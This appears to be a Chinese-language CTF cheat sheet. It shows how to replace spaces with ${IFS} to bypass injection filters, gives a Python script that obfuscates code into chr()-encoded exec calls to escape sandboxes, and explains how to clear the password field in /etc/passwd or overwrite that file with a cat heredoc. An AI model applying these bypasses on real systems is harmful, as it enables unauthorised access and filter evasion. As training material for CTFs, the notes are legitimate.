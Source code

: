 # IFS替代空格

![image](https://user-images.githubusercontent.com/52622597/210207396-1cdc8a0e-c2ee-4126-b66d-d88008baae15.png)

如果题目将空格给删除了，则可以使用${IFS}代替空格

![image](https://user-images.githubusercontent.com/52622597/210207484-838e32ee-04d3-4149-b156-29dacc50e150.png)

# python逃逸

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes

或者使用这个脚本来绕过
```
#!/usr/bin/env python3

import argparse
import os
import sys

# Ensure that this includes an argument for the file
parser = argparse.ArgumentParser()
parser.add_argument("script", type=str)
args = parser.parse_args()

if not os.path.exists(args.script):
        sys.stderr.write(f"'{args.script}' not a file")

with open(args.script, "rb") as h:
        contents = h.read().decode('utf-8')

code_string = "+".join([f"chr({ord(x)})" for x in contents])
code_string = f"{code_string}"

script_string = "+".join([f"chr({ord(x)})" for x in "<script>"])
script_string = f"{script_string}"

exec_string = "+".join([f"chr({ord(x)})" for x in "exec"])
exec_string = f"{exec_string}"

print(f'python -c "exec(compile({code_string}, {script_string}, {exec_string}))"')
```

![image](https://user-images.githubusercontent.com/52622597/210207901-468b234f-987e-4567-a8f9-96888d0e5c91.png)


# /etc/passwd绕过登录

如果拥有可以修改/etc/passwd文件权限的话，可以将x删除

![image](https://user-images.githubusercontent.com/52622597/210208043-61053f6c-f048-4ec4-bed6-9cc4739a5c49.png)

x代表的是此用户是否需要用密码登录

![image](https://user-images.githubusercontent.com/52622597/210208086-66567b60-b700-4ba8-a203-ae24af937288.png)


# 使用cat命令从剪贴板导入字符串
如果目标机子没有vim或者vi或者nano等文本编辑器，则可以使用cat命令覆盖文本

首先需要将要输入的字符复制一下
然后在目标机子上输入
```
cat<<EOF > /etc/passwd
```
然后ctrl+v粘贴内容

![image](https://user-images.githubusercontent.com/52622597/210208322-525bf055-141d-4550-b148-2396c88729a2.png)

最后输入EOF退出

![image](https://user-images.githubusercontent.com/52622597/210208403-9e705565-44cf-4116-b2e9-75fa2cb42fc6.png)

![image](https://user-images.githubusercontent.com/52622597/210208439-40bfb762-193d-4ecd-96db-6060bfbc0a5a.png)


